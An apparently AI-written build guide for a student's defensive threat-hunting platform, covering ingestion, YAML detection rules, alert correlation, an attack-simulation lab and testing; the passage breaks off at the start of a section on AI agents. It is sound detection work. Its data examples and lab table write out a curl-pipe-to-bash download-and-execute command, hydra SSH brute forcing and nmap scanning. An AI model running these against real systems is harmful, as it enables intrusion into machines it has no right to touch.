

# Threat Hunting Platform: Build Guide

A complete, step-by-step guide to building the platform from your architecture diagram, with a working starter codebase to build on.

**Stack:** Elasticsearch, Filebeat, FastAPI, PostgreSQL, React.
**Timeline:** 8 weeks, one developer.

---

## 0. At a glance

### What you have

| Part | Where | Status in this package |
|---|---|---|
| Ingestion: index template + normalization pipeline + Filebeat config | `backend/app/services/es.py`, `infra/` | Written. **Needs a live run** (section 7.2) |
| Backend API (31 endpoints): auth, search, IOC lookup, alerts, incidents, cases, evidence, reports | `backend/app/api/` | Written and tested |
| Detection engine: 10 YAML rules compiled to Elasticsearch queries | `backend/app/services/rules.py`, `detection.py` | Logic tested against a simulated attack |
| Correlation engine: groups alerts into attack stories | `backend/app/services/correlation.py` | Tested |
| Threat-intel enrichment: VirusTotal, AbuseIPDB, OTX + cache + watchlist | `backend/app/services/enrichment.py` | Tested with mocked HTTP |
| Reports: PDF and Markdown | `backend/app/services/reports.py` | Tested (PDF checked visually) |
| React dashboard: 9 pages | `frontend/src/` | Type-checks (strict) and builds |
| Docker Compose: Elasticsearch, Postgres, backend, frontend, optional Filebeat | `docker-compose.yml` | Written. **Needs a live run** |

### What was verified, and what was not

I could test everything that does not need a running Elasticsearch or Docker:

- **56 automated backend tests pass.** They cover rule validation, detection, correlation, enrichment, authentication, role-based access, evidence integrity, reports, and a cross-check that the data contract, rules, pipeline, seed data and frontend agree.
- The **detection tests run the rules against a seeded attack** using a small in-memory stand-in for Elasticsearch (`tests/fake_es.py`). This proves the *rule logic* is right.
- The frontend passes strict TypeScript and builds for production.

I could **not** run Docker, a real Elasticsearch, Postgres, Filebeat or a browser. Section 7.2 is a 6-step checklist for your first real run. Expect to fix a few small things there; that is normal and is part of the learning.

### Quick start (about 10 minutes)

```bash
cp .env.example .env              # then edit: passwords, and JWT_SECRET=$(openssl rand -hex 32)
sudo sysctl -w vm.max_map_count=262144    # Linux: required by Elasticsearch (see Troubleshooting for Windows/Mac)
docker compose up -d --build
docker compose exec backend python -m scripts.seed_data    # demo attack + retro-hunt
```

Open **http://localhost:3000** and sign in as `admin` with the `ADMIN_PASSWORD` from `.env`.
The interactive API docs are at **http://localhost:8000/docs**.

**Expected result after seeding** (this exact outcome is asserted in `tests/test_detection_correlation.py`):

- 10 alerts: 2 critical, 5 high, 2 medium, 1 low.
- 2 incidents. The first has 7 alerts on `web01` covering Initial Access, Execution, Persistence, Credential Access and Command and Control, with risk score 100. The second has 2 alerts on `win-ws01` (encoded PowerShell, then LSASS access).
- The port scan from `192.0.2.44` stays a single alert, correctly *not* merged into an incident.

### Suggested reading order (so you can explain every part)

1. Section 1 (architecture) and section 2 (data contract).
2. `backend/app/detections/rules/*.yml`, then `services/rules.py`, then `services/detection.py`.
3. `services/correlation.py` (about 100 lines, the heart of the project).
4. `services/enrichment.py`, then `api/cases.py`.
5. Run `pytest -v` and read the test names: they describe the behaviour in plain English.

> Check your internship's policy on AI assistance and be upfront about how you used this scaffold. Whatever the policy, you must be able to explain and modify every module. The reading order above is designed for exactly that.

---

## 1. Your architecture, reviewed

Your diagram is a sound, standard design. I kept its shape and made five changes.



### The five changes, and why

| # | Change | Why |
|---|---|---|
| 1 | **Added a threat-intel enrichment service** (diagram had none) | "Search by IP, domain, URL, hash" is a core objective. Without it, nothing connects your logs to threat intelligence. It also feeds a **watchlist** that the detection engine hunts for automatically. |
| 2 | **Alerts and incidents live in PostgreSQL, not Elasticsearch** | Alert volume is small, and alerts must link to cases, users and audit records. Those are relational problems. Elasticsearch stays for what it is good at: huge volumes of raw events. |
| 3 | **Detection rules are YAML compiled into Elasticsearch aggregation queries** | The engine never pulls events into Python. Elasticsearch does the heavy lifting, so detection scales with the cluster, and analysts add rules without touching code. |
| 4 | **Added authentication, roles and an audit log** | It is a security tool that stores evidence. Who searched, who closed an alert and who downloaded evidence must be recorded. |
| 5 | **Elasticsearch is the default, OpenSearch is an option** | Newer Beats versions refuse to connect to OpenSearch (they verify the server is genuine Elasticsearch), and Beats ship ready-made parsers. See the stack table for how to switch. |

### Component to code map (your diagram boxes)

| Diagram box | Implementation |
|---|---|
| Log Collection (Beats / Agent / Syslog) | `infra/filebeat/filebeat.yml` |
| Parsing + Normalization | `thp-normalize` ingest pipeline, `INDEX_TEMPLATE` in `services/es.py` |
| Elasticsearch | `docker-compose.yml`, `services/es.py` |
| Detection Engine | `services/rules.py` (compile) + `services/detection.py` (run) + `detections/rules/` |
| Alerts | `Alert` model, `api/detections.py` |
| Correlation | `services/correlation.py` |
| FastAPI Backend | `app/main.py`, `app/api/` |
| PostgreSQL (cases, users, evidence, findings) | `db/models.py` |
| React Dashboard | `frontend/src/pages/` |
| Investigation / Reports | `pages/CaseDetail.tsx`, `services/reports.py` |

### Technology decisions

| Layer | Choice | Version | Why | Alternative |
|---|---|---|---|---|
| Event store | Elasticsearch | 9.5.5 (set `ELASTIC_VERSION`; use the latest 9.x patch) | ECS-native, Beats work out of the box, strong aggregation engine | OpenSearch (use Fluent Bit or Logstash instead of Beats) |
| Collectors | Filebeat, Winlogbeat | same as Elasticsearch | Ready-made Sysmon and syslog support | Elastic Agent, Fluent Bit |
| Backend | Python 3.12, FastAPI | 0.143.0 | Fast to build, automatic API docs, strong typing with Pydantic | Flask, Django REST |
| ORM and DB | SQLAlchemy 2, PostgreSQL | 2.1.4, 17 | Relational integrity for cases and evidence | SQLite for quick demos only |
| Python ES client | `elasticsearch` | 9.5.1 (**major version must match the server**) | Official client | `opensearch-py` if you switch |
| Auth | PyJWT + bcrypt | 2.15.1, 5.0.0 | Standard and simple | OAuth/OIDC with Keycloak (stretch) |
| Frontend | React, Vite, TypeScript, Recharts | 19.3, 8.3, 7.0, 3.10 | Fast dev loop, typed API layer | Grafana for pure dashboards |
| Packaging | Docker Compose | v2 | One command to run the whole stack | Kubernetes (overkill here) |

---

## 2. The data contract (the most important design decision)

Everything downstream (rules, correlation, dashboard) depends on **consistent field names**. We use a subset of the Elastic Common Schema (ECS). Collectors adapt to this contract, never the other way around.

| Field | Type | Example | Used by |
|---|---|---|---|
| `@timestamp` | date | `2026-10-11T18:02:11Z` | every query |
| `host.name` | keyword | `web01` | grouping, correlation entity |
| `user.name` | keyword | `root` | rules, correlation entity |
| `source.ip`, `destination.ip` | ip | `203.0.113.50` | rules, IOC pivot |
| `source.port`, `destination.port` | integer | `443` | port-scan rule |
| `event.category` | keyword | `authentication`, `network`, `process`, `iam` | rule filters |
| `event.action` | keyword | `ssh_login`, `user_created`, `cron_modified`, `connection_denied` | rule filters |
| `event.outcome` | keyword | `success` / `failure` | rule filters |
| `event.code` | keyword | `10` (Sysmon ProcessAccess) | Windows rules |
| `process.name` | keyword | `powershell.exe` | rules |
| `process.command_line` | wildcard | `curl http://x/x.sh \| bash` | pattern rules |
| `dns.question.name` | keyword | `c2.evil-updates.example` | domain watchlist |
| `url.full` | wildcard | `http://evil.example/a` | URL pivot |
| `file.hash.sha256` | keyword | `e3b0c442...` | hash pivot |
| `winlog.event_data.TargetImage` | wildcard | `C:\Windows\System32\lsass.exe` | LSASS rule |

**Why `wildcard` for command lines:** Elasticsearch's `wildcard` field type is built for substring searches such as `*-enc*`, which is exactly what detection rules do. Regular `text` fields tokenize and break those searches.

### How raw logs become the contract

`infra/elasticsearch/thp-normalize-pipeline.json` is an **ingest pipeline**: a small program Elasticsearch runs on every incoming document. Ours uses `grok` (regex with names) to pull the user and IP out of sshd lines, then a `script` processor to set `event.category`, `outcome` and `action`.

Test it **without touching real data** using the simulate API:

```bash
curl -u elastic:$ELASTIC_PASSWORD -H 'Content-Type: application/json' \
  -XPOST 'localhost:9200/_ingest/pipeline/thp-normalize/_simulate' -d '{
  "docs": [{"_source": {"message": "sshd[812]: Failed password for invalid user admin from 203.0.113.50 port 51234 ssh2"}}]}'
```

You should see `user.name: admin`, `source.ip: 203.0.113.50`, `event.outcome: failure`, `event.action: ssh_login`. Do the same for an `Accepted password` line, a `new user: name=support` line and a `crontab ... BEGIN EDIT` line.

### Onboarding each source in your diagram

| Source | Collector | What you must map to the contract |
|---|---|---|
| Linux auth / syslog | Filebeat `filestream` (included) | Done by the `thp-normalize` pipeline |
| Windows event logs | Winlogbeat | Logon events 4624/4625 to `event.category: authentication` and `event.outcome` |
| Sysmon | Winlogbeat Sysmon module | Event 1 (process), 3 (network), 10 (process access, for LSASS), 22 (DNS) |
| Firewall | Syslog input (UDP/TCP 514) into Filebeat or Logstash | Denied connections to `event.action: connection_denied` |
| Applications | JSON log files read by Filebeat | Add `host.name`, `@timestamp`, `event.action` |
| Servers (web, DB) | Filebeat modules (nginx, apache, mysql) | Check the produced fields against the table |
| Endpoints | Elastic Agent or osquery logs | Same: verify, then map |

> **Important:** Beats modules change field names between versions. After onboarding a source, open a real event on the Hunt page, compare its fields with the contract, and adjust either the pipeline or the rule conditions. The rule layer is designed to make this cheap. Do not assume field names; look.

---

## 3. Build order, phase by phase

| Phase | Weeks | Goal |
|---|---|---|
| 0 | 1 | Lab and environment |
| 1 | 2 to 3 | Ingestion and normalization |
| 2 | 3 | Backend skeleton, auth, search |
| 3 | 4 | Threat intelligence |
| 4 | 5 | Detection engineering |
| 5 | 5 to 6 | Correlation |
| 6 | 6 | Dashboard |
| 7 | 7 | Cases, evidence, reports |
| 8 | 8 | Hardening, testing, demo |

Each phase ends with a **done when** check. Do not move on until it passes.

### Phase 0: Lab and environment (Week 1)

1. Install Docker (with Compose v2), Python 3.12, Node 22, Git. Create a GitHub repo and commit `.gitignore` first so `.env` is never committed.
2. Set `vm.max_map_count` (Elasticsearch requires it). Give Docker at least 4 GB RAM.
3. Copy `.env.example` to `.env`; generate secrets (`openssl rand -hex 32`). Use letters and digits only in database passwords, because special characters break the connection URL.
4. Build a small **lab** to generate real logs: one Ubuntu VM (the "victim"), optionally a second VM (the "attacker"), and optionally a Windows VM with Sysmon. Keep them on a host-only network. **Only ever attack machines you own.**

**Done when:** `docker compose up -d --build` shows all services healthy, and `http://localhost:8000/health` returns `{"status":"ok"}`.

### Phase 1: Ingestion and normalization (Weeks 2 to 3)

1. Read `INDEX_TEMPLATE` in `services/es.py`. The backend installs it (and the pipeline) at startup.
2. Run the **simulate** commands from section 2 for all four message types.
3. Seed demo events: `docker compose exec backend python -m scripts.seed_data`.
4. Point Filebeat at your Ubuntu VM's logs. Simplest: run Filebeat on the VM itself using `infra/filebeat/filebeat.yml`, with the paths changed to `/var/log/auth.log` and the Elasticsearch host set to your machine. Validate with `filebeat test config` and `filebeat test output`.
5. Generate real events on the VM: a wrong SSH password, `sudo useradd testuser`, `crontab -e`. Find them on the Hunt page.

**Done when:** a failed SSH login on the VM appears on the Hunt page with `event.outcome: failure` and the correct `source.ip`.

### Phase 2: Backend skeleton, auth, search (Week 3)

Read in this order: `core/config.py`, `db/models.py`, `core/security.py`, `api/deps.py`, `api/auth.py`, `services/es.py`, `api/hunting.py`.

Key ideas to understand and be able to explain:

- **Config from environment:** no secrets in code. The app refuses to start outside dev with the default JWT secret.
- **Roles:** `viewer < analyst < admin`, enforced by the `require_role()` dependency on every route.
- **Login timing:** `api/auth.py` hashes a dummy password when the user does not exist, so response time does not reveal valid usernames.
- **Search is read-only and bounded:** size is capped at 500, time ranges are validated against a strict pattern, and the index is fixed server-side. Users supply a query string, never an index name.

**Done when:** from `/docs` you can log in, call `POST /search/events`, and see events. A viewer cannot call `POST /cases` (403).

### Phase 3: Threat intelligence (Week 4)

Read `services/enrichment.py` slowly. The design rules are written at the top of the file:

- Every provider is optional. No key means skipped, never an error.
- One failing provider never breaks the lookup (rate limits, timeouts).
- Answers are cached for 24 hours, because free API tiers are small. Check each provider's current free limits before you rely on them.
- All providers return the same shape, so the UI does not care who answered.
- The **local watchlist** is always checked live. Anything an analyst adds becomes a permanent hunt.

Steps:

1. Create free accounts and put keys in `.env`: VirusTotal, AbuseIPDB, AlienVault OTX. Restart the backend.
2. Look up a known-bad test indicator, then look it up again; the second answer must say `cached: true`.
3. Add `198.51.100.77` to the watchlist (the seed script already did). The detection rule THP-009 now alerts on any host that talks to it.

**Done when:** an IP lookup returns verdicts from at least one real provider, a repeat lookup is cached, and a watchlisted IP seen in the logs raises an alert.

### Phase 4: Detection engineering (Week 5)

This is the **most valuable skill** in the project. See section 4 for the full handbook.

**Done when:** `POST /api/v1/detections/run?lookback_minutes=180` on seeded data creates the 10 expected alerts, and you have written one new rule of your own with a test.

### Phase 5: Correlation (Weeks 5 to 6)

Read `services/correlation.py` in full. The algorithm, in plain words:

1. Each alert carries **entities**: `ip:203.0.113.50`, `host:web01`, `user:root`.
2. Two alerts are **connected** if they share at least one entity **and** happened within the time window (default 60 minutes).
3. Connected alerts form groups (union-find over a graph). Any group of two or more alerts becomes an **incident**.
4. The incident gets an ordered kill-chain (`Initial Access, Execution, Persistence, ...`), a severity (escalated one level when it spans three or more stages), and a **risk score**.

Two details worth explaining to reviewers:

- **Noisy entities** (`user:root`, `user:administrator`, `ip:127.0.0.1`) are ignored. If sharing `root` connected alerts, unrelated hosts would be glued into one fake incident.
- **Risk score** = sum of severity weights (low 10, medium 25, high 50, critical 80) multiplied by `1 + 0.15 x (distinct tactics - 1)`, capped at 100. More kill-chain stages means a more worrying story.

**Done when:** seeded data produces exactly 2 incidents, and re-running correlation does not create duplicates.

### Phase 6: Dashboard (Week 6)

Pages live in `frontend/src/pages/`. Run it in development:

```bash
cd frontend && npm install && npm run dev      # http://localhost:5173, proxies /api to :8000
```

| Page | Purpose |
|---|---|
| Overview | Alert counts by severity, events per hour, top IPs and hosts, highest-risk incidents (auto-refresh every 30 s) |
| Hunt | Lucene search with time range, event table, JSON drill-down, **indicator pivot**, "attach as evidence" |
| Indicators | IOC lookup, watchlist management |
| Alerts | Filter, change status, open a case from an alert |
| Incidents | Correlated attack stories with a timeline |
| Cases | Case list and detail (findings, evidence, chain of custody, report download) |
| Detections | Rule list, "run now", retro-hunt over 24 hours or 7 days |

**Done when:** you can go Overview, then Incident, then Case, entirely from the browser.

### Phase 7: Cases, evidence, reports (Week 7)

Read `api/cases.py` and `services/reports.py`. Design points to defend:

- **Evidence is append-only.** There is no edit or delete endpoint. Every item stores a **SHA-256**: for files, of the raw bytes; for notes and log events, of the canonical JSON. Anyone can verify an item was not altered.
- **Uploads are untrusted:** stored under a random UUID filename (the client's name is never used in a path), size-limited, and always served as a download.
- **Chain of custody:** every action writes to `audit_log`, and the case page shows that trail.
- **Reports:** PDF for sharing, Markdown for pasting into a ticket.

**Done when:** you can close a case with two findings and three evidence items and download a PDF that includes the SHA-256 register.

### Phase 8: Hardening, testing, demo (Week 8)

1. Work through the security checklist (section 6).
2. Run the full test suite and the real-Elasticsearch checklist (section 7).
3. Record a demo video as a backup. Rehearse the script (section 10).
4. Write your final README: architecture, how to run, what is tested, known limits.

---

## 4. Detection engineering handbook

### Rule anatomy

```yaml
id: THP-003
title: PowerShell launched with an encoded command
severity: high
lookback_minutes: 15          # only look at the last 15 minutes
conditions:                   # ALL must match
  - {field: process.name, equals: powershell.exe}
  - {field: process.command_line, contains_any: ["-enc", "-encodedcommand"]}
group_by: [host.name, user.name]   # one alert per host+user pair
threshold: {count: 1}              # how many matching events are needed
mitre: {tactic: Execution, technique: T1059.001, name: PowerShell}
```

**Operators:** `equals`, `in`, `contains`, `contains_any`, `startswith`, `endswith`, `exists`. Add `negate: true` to turn any condition into an exclusion (this is how you add allowlists). Use `any_of:` for "at least one of these". A condition must have exactly one operator; the loader rejects a rule otherwise, and rejects unknown MITRE tactics.

**Two rule types:** `match` (normal) and `watchlist` (events whose field is in the analyst watchlist).

**Threshold with `distinct`:** `threshold: {count: 20, distinct: destination.port}` means "20 *different* ports", which is how the port-scan rule works.

### How a rule becomes a query

`build_search_body()` in `services/rules.py` turns the YAML into **one** Elasticsearch request:

- `conditions` become `bool.filter` clauses, `negate` ones become `must_not`.
- `group_by` becomes a **composite aggregation** (one bucket per unique host+user).
- Each bucket also asks for first seen, last seen and 3 sample events.
- Python then keeps only buckets reaching the threshold and creates alerts.

You can print the generated query for any rule and paste it into the Elasticsearch API to debug:

```python
from app.services.rules import load_rules, build_search_body
import json
rule = next(r for r in load_rules("app/detections/rules") if r.id == "THP-003")
print(json.dumps(build_search_body(rule), indent=2))
```

### Alert deduplication

If the same rule fires for the same group again while the earlier alert is still open (within `suppress_minutes`, default 60), the **existing** alert is updated instead of creating a new one. Without this, a 10-minute brute force would create a new alert every 60 seconds.

### Worked example: write your own rule

Goal: detect `sudo` used to open a root shell (MITRE T1548.003).

1. Generate the event on your VM: `sudo -i`. Find it on the Hunt page and note its real field values.
2. Create `backend/app/detections/rules/thp-011-sudo-root-shell.yml`:

```yaml
id: THP-011
title: Interactive root shell via sudo
severity: medium
lookback_minutes: 15
conditions:
  - {field: process.name, equals: sudo}
  - {field: process.command_line, contains_any: ["-i", "-s", "su -"]}
group_by: [host.name, user.name]
mitre: {tactic: Privilege Escalation, technique: T1548.003, name: Sudo and Sudo Caching}
```

3. Add a test (copy the pattern in `tests/test_detection_correlation.py`): append a matching event to the seeded list, run the engine with `FakeES`, and assert the alert exists. Also assert it does **not** fire on a normal `sudo apt update`.
4. Restart the backend and use **Detections, Run now**.

### Tuning false positives

| Symptom | Fix |
|---|---|
| Too many alerts from one service account | Add a `negate: true` condition on `user.name` |
| Brute-force rule fires on typos | Raise `threshold.count`; lengthen `lookback_minutes` |
| One noisy host | Exclude it with `negate`, and record why in the rule `description` |
| Alerts never fire | Field name mismatch: open a real event on the Hunt page and compare |

### Known limits of this design (be ready to state them)

- A rule returns at most 500 groups per run (composite aggregation page size).
- Detection polls every 60 seconds; it is near-real-time, not streaming.
- Rules see events within their lookback window only. Sequence detection ("A then B") is handled by the correlation layer, not inside a rule.
- The detection loop runs inside the backend process. Run **one** backend replica, or move the loop to a worker.

### The 10 shipped rules

| ID | Detects | Tactic and technique | Severity |
|---|---|---|---|
| THP-001 | 8 or more failed logins from one IP to one host in 10 minutes | Credential Access, T1110.001 | medium |
| THP-002 | Successful remote login as root/administrator | Initial Access, T1078 | high |
| THP-003 | PowerShell with an encoded command | Execution, T1059.001 | high |
| THP-004 | `curl`/`wget` piped into a shell | Execution, T1059.004 | high |
| THP-005 | New local account created | Persistence, T1136.001 | high |
| THP-006 | Cron entry or scheduled task changed | Persistence, T1053 | medium |
| THP-007 | Process reading LSASS memory (Sysmon 10) | Credential Access, T1003.001 | critical |
| THP-008 | 20 or more distinct ports blocked from one source | Discovery, T1046 | low |
| THP-009 | Connection to a watchlisted IP | Command and Control, T1071 | critical |
| THP-010 | DNS lookup of a watchlisted domain | Command and Control, T1071.004 | high |

---

## 5. Attack simulation lab

You need realistic attacks to prove the platform works. Use three levels, in order.

**Level 1: synthetic data (no VMs).** `scripts/seed_data.py` generates a 24-hour baseline plus a three-part attack. All attacker addresses come from RFC 5737 documentation ranges, so they cannot be real hosts.

**Level 2: real Linux events.** On your own Ubuntu VM, from a second VM on the same host-only network:

| Attack | How | Expected alert |
|---|---|---|
| Password guessing | `hydra -l root -P wordlist.txt ssh://<victim-ip>` | THP-001, then THP-002 if it succeeds |
| Persistence | `sudo useradd support`, then `crontab -e` | THP-005, THP-006 |
| Download and execute | `curl -s http://<your-test-server>/x.sh \| bash` (serve a harmless script) | THP-004 |
| Port scan | `nmap -p 1-1000 <victim-ip>` (needs firewall logging) | THP-008 |

**Level 3: Windows with Sysmon.** In an isolated Windows VM, install Sysmon with a community configuration and Winlogbeat, then use **Atomic Red Team** tests for T1059.001 (PowerShell) and T1003.001 (LSASS). Detonate only inside the VM, with no shared folders and a snapshot to revert to.

> Legal and safety: attack only systems you own or have written permission to test. Keep lab VMs off any shared or university network.

**Measuring success:** keep a table of *attack, expected rule, did it fire, time to alert*. A reviewer will love a **detection coverage matrix** mapped to MITRE ATT&CK.

---

## 6. Security of the platform itself

| Control | Status | Where |
|---|---|---|
| Passwords hashed with bcrypt, minimum 10 characters | Done | `core/security.py`, `schemas.py` |
| Constant-time login path (no user enumeration by timing) | Done | `api/auth.py` |
| JWT with expiry, signature checked on every request | Done | `api/deps.py` |
| Role-based access on every route | Done and tested | `require_role()` |
| Refuses default JWT secret outside dev | Done | `Settings.validate_for_runtime` |
| Input validation (Pydantic, strict time-range pattern, size caps) | Done | `schemas.py` |
| Search constrained: fixed index, capped size, read-only | Done | `services/es.py` |
| Upload safety: random stored name, size limit, download-only | Done and tested | `api/cases.py` |
| Evidence integrity: SHA-256, append-only | Done and tested | `api/cases.py` |
| Audit log of logins, searches, status changes, downloads | Done | `services/audit.py` |
| Container runs as non-root | Done | `backend/Dockerfile` |
| Services bound to `127.0.0.1` only | Done | `docker-compose.yml` |
| Security headers on the frontend | Done | `frontend/nginx.conf` |

### Known gaps (be honest about these in your presentation)

| Gap | Fix |
|---|---|
| No login rate limiting or lockout | Add `slowapi`, or nginx `limit_req` on `/api/v1/auth/login` |
| No token revocation or refresh tokens | Short-lived access token plus refresh token with a server-side deny-list |
| Token kept in `sessionStorage` (readable by any XSS) | Move to an `HttpOnly` cookie with CSRF protection |
| Elasticsearch TLS disabled in dev compose | Enable `xpack.security.http.ssl`, and verify certificates in the client |
| Tables created with `create_all`, no migrations | Add Alembic before changing the schema in production |
| IOC lookups sent to third parties | Never send internal or sensitive indicators to public services; add an "internal ranges are never looked up" guard |
| No malware scanning on uploaded evidence | Treat uploads as hostile; never open them on the server |

---

## 7. Testing

### 7.1 Automated tests (already in the repo)

```bash
cd backend && python -m venv .venv && . .venv/bin/activate
pip install -r requirements-dev.txt && python -m pytest -v
cd ../frontend && npm run build        # runs strict type-checking first
```

| Test file | What it proves |
|---|---|
| `test_rules.py` | All 10 rules load and compile; invalid rules are rejected; wildcard characters are escaped; watchlist rules stay silent when the list is empty |
| `test_detection_correlation.py` | Every rule fires **exactly** on the seeded attack and **never** on background noise; re-running does not duplicate alerts; correlation yields the 2 expected incidents; the port scan is not merged; distant alerts are not merged |
| `test_enrichment.py` | Indicator type detection and rejection of garbage; multiple providers combined (worst verdict wins); caching; a rate-limited provider does not break the lookup; the local watchlist always wins |
| `test_api.py` | Login, bad credentials, role-based access, weak passwords, case lifecycle, evidence hashes match the real bytes, path-traversal filename is harmless, oversized upload rejected, PDF and Markdown reports, audit trail |
| `test_contract.py` | **Triangulation:** `docs/DATA_CONTRACT.md` is checked against the index template, every rule, the ingest pipeline, the seed data, the entity map and the frontend's field reads. Includes a meta-test proving the checks can fail |

**What the fake Elasticsearch means:** `tests/fake_es.py` implements only the small subset of the query language our compiler emits. It proves the *logic* (right fields, right thresholds, right grouping). It does **not** prove a real Elasticsearch accepts every query. That is what 7.2 is for.

One test caught a genuine bug while I wrote this: `999.999.1.1` was being accepted as a domain. It is a good example of why you write edge-case tests.

### 7.2 First real run: integration checklist

Run these in order after `docker compose up -d --build`. If a step fails, fix it before continuing.

| # | Check | Command | Expect |
|---|---|---|---|
| 1 | Services healthy | `docker compose ps` | elasticsearch, postgres, backend all `healthy`/`running` |
| 2 | Template installed | `curl -u elastic:$P localhost:9200/_index_template/thp-events` | JSON with `index_patterns: ["thp-events-*"]` |
| 3 | Pipeline installed and correct | the `_simulate` call in section 2 | normalized fields present |
| 4 | Seed loads | `docker compose exec backend python -m scripts.seed_data` | `indexed ~700+ events`, then `retro-hunt done: 10 alerts, 2 incident(s)` |
| 5 | Count matches | `curl -u elastic:$P 'localhost:9200/thp-events-*/_count'` | same as events indexed |
| 6 | Detection via API | `POST /api/v1/detections/run?lookback_minutes=180` from `/docs` | `errors: {}` |

**If a rule reports an error in step 4 or 6,** the message names the rule and the Elasticsearch reason. The usual causes: a field mapped as a different type than the rule assumes, or a field name that differs in your real data.

### 7.3 Tests worth adding yourself

- A **rule fixture** for each new rule: one event that must fire it, one near-miss that must not.
- A **Playwright** end-to-end test: login, seed, open the incident, open a case, download the PDF.
- A **load test**: index 1 million events and time one detection cycle. Report the number; reviewers like measured performance.

---

## 8. Operations

| Topic | Guidance |
|---|---|
| Elasticsearch memory | Dev compose uses a 1 GB heap. Never give Elasticsearch more than half the machine's RAM |
| `vm.max_map_count` | Must be 262144 on the Docker host (Linux: `sysctl`; Windows/WSL2 and macOS: see Troubleshooting) |
| Retention | Keep events 30 days with an ILM delete policy on `thp-events-*`; alerts, cases and evidence are kept in Postgres indefinitely |
| Backups | `pg_dump` for Postgres **and** a copy of the `evidence` volume. Evidence rows without files are useless |
| Detection loop | Interval is `DETECTION_INTERVAL_SECONDS`. Failures are logged and retried; one bad rule never stops the others |
| Logs | `docker compose logs -f backend` |

---

## 9. Making it advanced: stretch roadmap

Pick two or three, in this order of value for effort. Finish the core first.

| # | Feature | Effort | Why it impresses |
|---|---|---|---|
| 1 | **Sigma rule import** (pySigma with an Elasticsearch backend) | 3 to 4 days | Uses the industry-standard rule format; thousands of public rules |
| 2 | **Host / entity timeline** page: every event for one host, alerts overlaid | 2 days | Real analyst workflow |
| 3 | **Graph view** of an incident's entities (React Flow) | 2 days | Visual wow for a demo |
| 4 | **Notifications**: Slack/email webhook on critical alerts | 1 day | Closes the loop from detection to humans |
| 5 | **Rarity-based anomaly detection**: "this process has never run on this host" via aggregations | 3 days | A first step into behavioural hunting |
| 6 | **Threat feed ingestion** (OTX pulses into the watchlist) | 2 days | Automates intelligence |
| 7 | **Detection-as-code CI**: GitHub Action that runs rule tests on every pull request | 1 day | Engineering maturity |
| 8 | **ATT&CK coverage heatmap** from your rules | 1 to 2 days | Shows what you can and cannot detect |
| 9 | **OpenSearch support** behind a small client interface | 3 days | Shows portability |

---

## 10. Monday and the final review

### Your 60-second explanation

> "The platform collects security logs from Linux, Windows and Sysmon through Filebeat, normalizes them into a common schema, and stores them in Elasticsearch. A detection engine runs YAML rules every minute as Elasticsearch aggregation queries and raises alerts. A correlation engine links alerts that share an IP, host or user within an hour into incidents with a kill-chain and a risk score. Analysts hunt in the React dashboard, look up indicators against VirusTotal, AbuseIPDB and OTX, and record findings and tamper-evident evidence in cases stored in PostgreSQL. Finally they export a PDF investigation report."

### Five-minute demo script

1. **Overview:** point to the two open incidents and the alert counts.
2. **Incident #1:** show the attack chain and the timeline. Narrate: brute force, root login, download-and-execute, backdoor user, cron job, beaconing.
3. **Hunt:** search `source.ip:203.0.113.50`, then **pivot** on `198.51.100.77` to show which hosts talked to the C2 server.
4. **Indicators:** look up an IP; show the cached repeat.
5. **Case:** open a case from the incident, add a finding and a file, show the SHA-256.
6. **Report:** download the PDF.
7. **Detections:** open a rule, then run a retro-hunt.

### Questions a reviewer is likely to ask

| Question | Short answer |
|---|---|
| Why Elasticsearch **and** PostgreSQL? | Events are huge, append-only and searched by time and text: Elasticsearch. Alerts, cases and users are relational with transactions and an audit trail: PostgreSQL. |
| How does detection scale? | Rules compile to aggregation queries, so Elasticsearch does the heavy work. Python only sees the final groups. |
| How do you avoid alert floods? | Deduplication by rule plus group within a suppression window, and thresholds. |
| What makes correlation trustworthy? | It needs a shared entity **and** time proximity, and ignores noisy entities like `root`. |
| How do you handle false positives? | Thresholds, `negate` allowlists, an analyst "false positive" status, and a test pair per rule. |
| How is evidence protected? | Append-only, SHA-256 per item, random storage names, full audit trail. |
| What are the limits? | Section 4 and 6: 500 groups per run, polling not streaming, single detection loop, no login rate limiting yet. |
| How did you test it? | 56 automated tests, a simulated multi-stage attack, cross-checks that keep the data contract consistent, and a real-Elasticsearch checklist. |

---

## 11. Troubleshooting

| Problem | Cause and fix |
|---|---|
| Elasticsearch exits with `max virtual memory areas vm.max_map_count [65530] is too low` | Linux: `sudo sysctl -w vm.max_map_count=262144`. WSL2 / Docker Desktop: `wsl -d docker-desktop sysctl -w vm.max_map_count=262144`. |
| Elasticsearch container restarts | Not enough RAM. Raise Docker's memory limit to 4 GB or more. |
| `docker compose up` fails pulling the Elasticsearch tag | The patch version may not be published yet. Set `ELASTIC_VERSION` in `.env` to the previous patch (for example 9.4.8). |
| Backend: `connection refused` to Elasticsearch at startup | It only logs a warning and keeps running. Wait for Elasticsearch to become healthy, then restart the backend so the template and pipeline get installed. |
| Python client errors about product or version | The `elasticsearch` Python package major version must equal the server's (9.x with 9.x). |
| Login returns 401 | The admin user is created only if the `users` table is empty. Check `ADMIN_PASSWORD` was set the **first** time the backend started, or create a user via `POST /api/v1/auth/users`. |
| Backend `invalid password` for Postgres | Special characters in `POSTGRES_PASSWORD` break the URL. Use letters and digits. |
| Alerts never appear | Rules look back only 5 to 15 minutes. For old data use **Detections, Retro-hunt**. Then compare the real field names with the contract. |
| `Beats ... unsupported product` | You are pointing Beats at OpenSearch. Use Elasticsearch, or Fluent Bit / Logstash for OpenSearch. |
| Frontend shows blank page after login | Check the browser console. Most often the backend is not reachable on `:8000` (development proxy) or `backend:8000` (Docker). |

---

## 12. Building with an AI agent (Antigravity)

AI coding tools drift when they work from one-off prompts: they forget decisions, guess field names, and claim success without running anything.
